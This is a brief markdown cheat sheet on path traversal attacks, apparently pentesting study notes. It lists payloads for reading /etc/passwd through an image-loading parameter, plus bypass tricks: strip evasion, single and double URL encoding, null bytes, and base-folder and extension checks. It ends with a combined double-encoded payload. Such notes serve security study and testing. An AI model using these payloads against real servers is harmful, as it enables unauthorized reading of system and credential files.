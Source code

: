 # Path traversal

## <mark style="color:yellow;">General info</mark>

* `<img src="/loadImage?filename=218.png">`
* An attacker can request the following URL to retrieve the `/etc/passwd` file from the server's filesystem
* `https://insecure-website.com/loadImage?filename=../../../etc/passwd`
* On Windows, both `../` and `..\` are valid directory traversal sequences

## <mark style="color:yellow;">Bypass defences</mark>

* Elimination (strip): `../` -> `....//`
  * Test: try to change the orginal request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  * If the file is loaded the code strip `../`
* Encode: `../` ->`%2e%2e%2f`
* Double-encode: `../` ->`%252e%252e%252f`
* Require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
* Require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
* Others

## <mark style="color:yellow;">Tips</mark>

* Don't always trust error messages
  * `GET /image?filename=/etc/passwd` -> "No such file"
    * Try to add null byte: `GET /image?filename=/etc/passwd%00`
    * Try to add null byte and extension: `GET /image?filename=/etc/passwd%00.png`
* Combine the cases:
  * Example: `....//....//....//etc/passwd%00.jpg` (strip, double-encode, null byte, whitelist exstension)
  * `%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg`
